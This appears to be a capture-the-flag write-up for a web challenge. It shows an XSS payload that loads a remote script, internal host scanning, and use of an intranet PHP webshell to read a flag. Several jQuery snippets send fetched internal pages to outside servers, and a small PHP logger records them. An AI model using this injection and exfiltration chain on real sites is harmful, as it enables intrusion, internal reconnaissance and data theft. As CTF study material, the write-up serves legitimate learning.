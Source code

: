 # Writeup for QAQ (WEB) (350)

> Solves: 16
> 
> web
> 
> http://104.199.132.251:80
> 
> hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!
> 
> hint2: CORS headers
  
We had a web interface:

![Screenshot_1.png](Screenshot_1.png)

After submit form, had summary, so we could test XSS prevention bypass, by us (this alert was not xss, was native in response):

![Screenshot_2.png](Screenshot_2.png)

Our XSS Payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

XSS successfully append code to body:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
So we could execute any unrestricted javascript code, from our external server.

On first we executed [hook.js](hook.js) from BeEF source.

Hint `Secret in intranet` prompted us to scan hosts in BeEF, results was:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that we checked IP nearest to founded hosts

Injected JS code (only replaced code in hook.js in our server, XSS payload was same)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server script observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was checked what was there.

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Looked nice. We had php shell from `$_GET[c]`

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```


returned flag